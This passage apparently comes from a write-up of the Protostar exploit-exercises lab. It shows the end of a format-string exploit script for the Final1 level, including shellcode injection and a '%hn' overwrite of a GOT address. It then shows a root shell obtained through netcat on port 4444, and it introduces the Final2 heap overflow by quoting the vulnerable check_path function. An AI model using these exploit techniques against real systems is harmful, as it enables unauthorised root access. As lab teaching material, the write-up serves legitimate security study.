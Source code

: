```lang-bash line-numbers 

s.send("username " + "\x90"*16 + shellcode2 + "A"*(len(shellcode) - len(shellcode2)) + "\n")
s.send("login " + "XXX" + "\x94\xa1\x04\x08" + "%41332d" + "%49$hn" + "\n")
s.close()
```

and now it seems it works!:

```lang-bash line-numbers 
root@protostar:~# netstat -natp | grep 4444
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      23275/final1
```

Lets go for it:

```lang-bash line-numbers 
root@protostar:~# nc localhost 4444
id
uid=0(root) gid=0(root) groups=0(root)
```


## Final2

This [level](http://exploit-exercises.com/protostar/final2) is about remote heap explotation and that means that we have to find a place in the program where we are able to overwrite a chunk of memory with arbitrary contents and that chunk needs to be freed afterwards.
If we read the code carefully we will find that the "check_path" function allows us to overwrite a chunk of memory since it uses "memmove" without checking its boundaries.

```lang-clike line-numbers 
void check_path(char *buf)
{
  char *start;
  char *p;
  int l;

  /*
   * Work out old software bug
   */

  p = rindex(buf, '/');
  l = strlen(p);
  if(p) {
    start = strstr(buf, "ROOT");
    if(start) {
      while(*start != '/') start--;
      memmove(start, p, l);
      printf("moving from %p to %p (exploit: %s / %d)\n", p, start, start < buf ?
      "yes" : "no", start - buf);
    }
  }
}
```
